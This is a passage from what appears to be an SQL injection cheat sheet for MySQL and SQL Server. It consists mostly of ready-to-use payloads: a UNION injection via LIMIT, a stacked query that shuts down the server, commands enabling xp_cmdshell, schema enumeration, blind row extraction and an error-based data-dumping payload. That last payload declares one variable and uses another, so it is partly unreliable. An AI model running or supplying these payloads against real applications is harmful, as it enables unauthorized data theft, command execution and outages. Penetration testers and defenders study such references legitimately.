 You can not use sub selects in SQL Server Insert queries.

#### SQL Injection in LIMIT (M) or ORDER (MSO)

`SELECT id, product FROM test.test t LIMIT 0,0 UNION ALL SELECT 1,'x'/*,10 ;`

If injection is in second _limit_ you can comment it out or use in your union injection

#### Shutdown SQL Server (S)

When you're really pissed off, `';shutdown --`

### Enabling xp\_cmdshell in SQL Server 2005

By default xp\_cmdshell and couple of other potentially dangerous stored procedures are disabled in SQL Server 2005. If you have admin access then you can enable these.

`EXEC sp_configure 'show advanced options',1   
RECONFIGURE`

`EXEC sp_configure 'xp_cmdshell',1   
RECONFIGURE`

### Finding Database Structure in SQL Server (S)

#### Getting User defined Tables

`SELECT name FROM sysobjects WHERE xtype = 'U'`

#### Getting Column Names

`SELECT name FROM syscolumns WHERE id =(SELECT id FROM sysobjects WHERE name = 'tablenameforcolumnnames')`

### Moving records (S)

-   Modify WHERE and use **`NOT IN`** or **`NOT EXIST`**,   
    `... WHERE users NOT IN ('First User', 'Second User')`   
    `SELECT TOP 1 name FROM members WHERE NOT EXIST(SELECT TOP 0 name FROM members)` _\-- very good one_
-   Using Dirty Tricks   
    `SELECT * FROM Product WHERE ID=2 AND 1=CAST((Select p.name from (SELECT (SELECT COUNT(i.id) AS rid FROM sysobjects i WHERE i.id<=o.id) AS x, name from sysobjects o) as p where p.x=3) as int`   
    `  
    Select p.name from (SELECT (SELECT COUNT(i.id) AS rid FROM sysobjects i WHERE xtype='U' and i.id<=o.id) AS x, name from sysobjects o WHERE o.xtype = 'U') as p where p.x=21`

### Fast way to extract data from Error Based SQL Injections in SQL Server (S)

`';BEGIN DECLARE @rt varchar(8000) SET @rd=':' SELECT @rd=@rd+' '+name FROM syscolumns WHERE id =(SELECT id FROM sysobjects WHERE name = 'MEMBERS') AND name>@rd SELECT @rd AS rd into TMP_SYS_TMP end;--`

**Detailed Article:** [Fast way to extract data from Error Based SQL Injections](http://ferruh.mavituna.com/fast-way-to-extract-data-from-error-based-sql-injections-oku/)
